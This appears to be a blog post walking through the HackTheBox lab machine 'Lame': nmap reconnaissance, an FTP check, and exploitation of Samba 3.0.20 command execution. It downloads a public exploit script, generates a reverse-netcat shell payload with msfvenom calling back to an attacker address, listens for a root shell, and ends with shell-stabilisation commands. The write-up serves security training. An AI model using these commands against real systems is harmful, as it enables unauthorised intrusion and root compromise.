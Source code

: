 ```yaml
---
layout: post
title: Lame - HackTheBox
slug: lame-hackthebox
date: '2021-11-07T21:38:18.350Z'
---
```


# Recon
Starting a port scan with nmap:
{% highlight shell %}
IP=10.10.10.3
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $IP -oG nmap/initial
{% endhighlight  %}
![nmap-lame]({{ site.baseurl }}/images/lame/1.jpg)

We can scan with nmap scripts for version and vulnerabilities associated with the ports mentioned above:
{% highlight shell %}
sudo nmap -p21,445,139,22,3632 -sCV $IP -oG nmap/targeted
{% endhighlight  %}

# FTP - Port 21
![nmap-lame]({{ site.baseurl }}/images/lame/ftp1.JPG)

We can log in with de anonymous user, but it is empty.
![ftp-anon]({{ site.baseurl }}/images/lame/ftp2.jpg)

We see that the version of the FTP server is vulnerable (searchsploit). Using a python exploit and metasploit we have not been able to access.
![ftp-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)

# Samba - Port 445
Searching in searchsploit we can see that samba is vulnerable to remote command execution. We are going to look for a Python script to exploit the vuln:
{% highlight shell %}
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
{% endhighlight  %}

Next, we will see the script and we will change the payload with msfvenom with our IP address:
{% highlight shell %}
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
{% endhighlight  %}
As we can see, it is not necessary to change anything else.

In the other hand, we should listen with netcat by 443 port that it returns a root shell. Searching for flags at this point is trivial.

# BONUS - Tratamiento TTY
{% highlight shell %}
which python (tenemos python, continuamos)
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL_Z
stty raw -echo; fg
ENTER y ENTER
export TERM=xterm
export SHELL=bash
stty rows Y columns X (sacamos esas medidas del comando stty -a)
{% endhighlight  %}
